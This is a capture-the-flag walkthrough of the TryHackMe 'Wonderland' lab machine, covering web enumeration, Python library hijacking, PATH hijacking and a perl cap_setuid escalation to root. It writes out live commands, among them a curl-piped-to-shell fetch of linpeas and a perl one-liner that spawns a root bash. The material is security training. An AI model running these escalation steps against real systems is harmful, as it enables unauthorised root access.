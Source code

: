 # TryHackMe - Wonderland

https://tryhackme.com/room/wonderland

Topics cover in this room:
- Python module manipulation
- PATH variable environment
- Capabilities

### Recon and Enumeration

```bash
nmap -sC -sV 10.10.243.9 # Change this to IP given
```

![nmap-scan](img/nmap-scan.png)

We found port `80`, lets run `gobuster` to enumerate directory in the website
```bash
gobuster dir -w /opt/common.txt -u 10.10.243.9 
# Change this to IP given
# your wordlist may be different
```
While gobuster is scanning, lets open browser to see what the website has
  
  ![web-manual-hunt-1](img\web-manual-hunt-1.png)


Nothing, lets see the source page. Hit `Ctrl+U` if you are using Firefox
  ![\web-manual-hunt-1-source-code](img\web-manual-hunt-1-source-code.png)

Same. Lets see if our gobuster found something
  ![gobuster-scan.png](img\gobuster-scan.png)

`/r`, interesting. Lets see what in there. Type `IP_OF_MACHINE/r`
  ![web-manual-hunt-2.png](img\web-manual-hunt-2.png)
Hmm, maybe we should follow *rabbit*? Lets try access all directory with spelling rabbit. The syntax should be
1. `IP_OF_MACHINE/r`
2. `IP_OF_MACHINE/r/a`
3. `IP_OF_MACHINE/r/a/b`
4. `IP_OF_MACHINE/r/a/b/b`
5. `IP_OF_MACHINE/r/a/b/b/i`
6. `IP_OF_MACHINE/r/a/b/b/i`
7. `IP_OF_MACHINE/r/a/b/b/i/t`
  ![web-manual-hunt-end.png](img\ web-manual-hunt-end.png)


Have get ourself into the *rabbit hole*? Lets we check the source code of the page. Hit `Ctrl+U` if you are using firefox
  ![web-manual-hunt-end-source-page.png](img\web-manual-hunt-end-source-page.png) 
We know from Nmap scan, we have port `22` open which we can SSH into the machine. And we found something that was hidden that may have been credential. Lets SSH into the machine with this info
```bash
ssh alice@IP
```
  ![ssh-alice.png](img\ssh-alice.png) 
***WE ARE IN***

### Alice

Lets see what `alice`
  ![alice-directory.png](img\alice-directory.png) 

We have 2 interesting files called `root.txt` and a python file. Both can only be run as `root`.

Lets see what `sudo` command our `alice` can run
![alice-sudo.png](img\alice-sudo.png) 

So, `alice` can run the python command only as a username `rabbit`. Lets run it
  ![alice-py.png](img\alice-py.png) 

We got some poem, lets see what is this python script does. Use `nano walrus_and_the_carpenter.py`
  ![alice-py-sc-1.png](img\alice-py-sc-1.png) 
  ![alice-py-sc-2.png](img\alice-py-sc-2.png) 

So, the scripts run a `for` loop where it will randomly split the poem and print in 10 times using `random` library.

If we check python library path configuration using `python3 -c 'import sys; print(sys.path)'` we will see that the very first thing python will check is current directory where the script is run(mark by `['',` )
  ![alice-py-lib-src.png](img\alice-py-lib-src.png) 

What that mean is, we can create a new python file named `random.py` containing some exploit code where `walrus_and_the_carpenter.py` will use it as the library, since current directory is the very first the script will check. More in [here](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Make a new file call `random.py` with `nano` or `vim` and type code bellow
  ![random-py-exploit.png](img\random-py-exploit.png) 

Now if we run the `sudo rabbit` command earlier, we will now will switch to user `rabbit`
  ![rabbit-shell.png](img\rabbit-shell.png) 

### Rabbit

Neat, lets see what we have in `rabbit` directory.
  ![rabbit-directory.png](img\rabbit-directory.png)
 
Running `file teaParty` will tell us what is this file. It is a binary file. Running it with `./teaParty` wont tell us much info
  ![teaParty](img\teaParty.png)

Usually with binary file, we can use `strings` to see what piece of string that is in the file. But since there is no `strings` in our machine we will use `less`. Run `less teaParty`. You will get bunch of text that very confusing, its because we try to open binary file as a text. But there are strings that readable, that what we wanted. Scroll down long enough you will find strings that look similiar when we run `./teaParty`
  ![teaParty-string](img\teaParty-string.png)

What this binary will do if it run, it will dispay text `Welcome to the tea party! The Mad Hatter will be here soon.` and then date that is `echo` from the variable `date` in the system (in our case its our machine). Hence why when we run the file, we get estimated time +1 hour from our machine. 

If you look closely there are 2 variable that this binary use. `echo` and `date`. `echo` is set to run using PATH from `bin/echo`, but there is no rule for where this `date` variable should run from. We can create our own `date.sh` containing our payload as the PATH preferance for binary to run. So lets do this!

> More on explained of PATH is [here](https://linuxconfig.org/linux-path-environment-variable) and for [this exploit](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) it self

Make a new path on `/tmp` with command `export PATH=/tmp:$PATH` and confirm it with `echo $PATH`. If done correctly we can see that `/tmp` is in front.

> Why on `/tmp` you may ask? Most of the directory that own by `root` can only be access as `root` it self for some exception which `/tmp` is one of them, google this for more info.

Create a new shell script called `date` with `vim` or `nano` with code below
  ![date-exploit](img\date-exploit.png)

Change the mode of our `date` as executable wih `chmod +x /tmp/date` and run the binary again with `./teaParty`
  ![hatter-shell](img\hatter-shell.png)

There is explanation for this exploit, which I will try to explain the best as I can:

1. You may wondering, why we create our `date` on `/tmp` as suppose to in current directory? It because `teaParty` is own and can only edited by `root` which you can check with running command `ls -la`. Since we need to modify the `date` whome our `teaParty` use, hence we need to place it as in `root` only area, and `/tmp` is one of the place that own by `root` whose also can be access by any user. If you try to use in current directory, it wont work.

2. What the code in `date` does is simply spawn `bash` as suppose to complete the script. If we run `teaParty` normally, there is `ending` which the script is complete its job. Where after this exploit, instead of giving you and time estimation in the line after `Probably by` it spawn a `bash` shell.

So now we have `hatter` shell, we will go to `hatter` home directory. 
  ![hatter-pass](img\hatter-pass.png)

Go ahead to `cat` the password and lets switch to `hatter` user, since we technically are not fully `hatter`
  ![su-hatter](img\su-hatter.png)

### Hatter

All we have is just `password.txt`, and nothing else. What we do now? Well lets use enumeration tool, `[linpeas]`(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download the file and put it in your machine. Start web simple httpserver by `python3 -m http.server 80` on where `linpeas.sh` is located. Open a new terminal and type in `ifconfig` and save/write `tun0` IP somewhere

On target machine, type in `curl tun0_IP/linpeas.sh | sh | tee linlog.txt`. What this command does is it will download `linpeas.sh` in our mahcine and run it as well as save it as `linlog.txt`

As you notice, it really slow to navigating the target machine. And there are a lot of information that `linlog.txt` has so we want to copy `linlog.txt` form target machine to our machine. Use `scp hatter@10.10.243.9:/home/hatter/linlog.txt .` and once completed, open it on your machine with `less -r linlog.txt` and press `y`

This part require you to have some knowledge of linux privilege escalation vector. Usually if this is beginner room, you will see right away the vector by finding **orange** color.

Running `sudo -l` confirming that `hatter` dont have access to `sudo`. Right now, the best we can do is to check anythng that `linpeas` has mark with **red** color. One of way to check is to use [GTFOBins](https://gtfobins.github.io/) as well as read the link that `linpeas.sh` gave.

To make it short we will use whats in `capabilities`. Quoting from book.hacktricks.xyz it self
> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

In short: `capabilities` is a way to make a exception for non priviledge user to run important task like most of networking stuff which `root` is the one who capable as `root` is priviledge user. There are a lot of vector we can use, but `linpeas` told us we can use `cap_setuid` of `perl`. Read more [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#capabilities).
  ![capabilites](img\capabilities.png)

Type in `which perl` to find where is the perl executable is located, and head over to [GTFOBins](https://gtfobins.github.io/) and find `Perl` section

On the very bottom, we see `Capabilities` section. We only need some of the code, so use command `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.
  ![perl-to-bash](img\perl-to-bash.png)
> NOTE: `/bin/sh` is change to `/bin/bash` because we want `bash` to spawn, not `sh`

And now you are `root`. Since you are root, you can go to `alice` directory to get `root.txt` and go to `/root` directory to get `user.txt`
